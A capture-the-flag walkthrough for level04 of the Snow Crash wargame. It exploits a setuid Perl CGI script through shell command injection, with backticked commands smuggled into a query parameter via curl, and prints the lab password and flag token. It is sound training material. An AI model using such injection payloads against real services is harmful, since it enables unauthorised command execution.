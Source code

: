 ### TLTR;
```shell
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level04
level04@192.168.1.64's password: qi0maab88jeaj46qoumi7maus
level04@SnowCrash:~$ curl localhost:4747/?x="\`/bin/getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
***


Login as `level04`.
```shell
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level04
level04@192.168.1.64's password: qi0maab88jeaj46qoumi7maus
```
A Perl script is located in home directory.
```shell
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

The script indicates that it is something running on `localhost:4747`.
Verbose port scan for listening daemons, without sending any data to them.

`nc -zv` allows to check connection to `4747` without sending any data and verbose mode

```shell
level04@SnowCrash:~$ nc -zv localhost 4747
Connection to localhost 4747 port [tcp/*] succeeded!
```
Script expects a value passed in `x` parameter which is passed to `x()` function.
Then, while printing it, backticks are used to evaluate argument by echoing it.

So trying to pass `whoami` command substitution reveals that is evaluated and executed as `flag04`.
```shell
level04@SnowCrash:~$ curl localhost:4747/?x="\`/usr/bin/whoami\`"
flag04
```
All that remains to be done is to execute `getflag` binary.
```shell
level04@SnowCrash:~$ curl localhost:4747/?x="\`/bin/getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
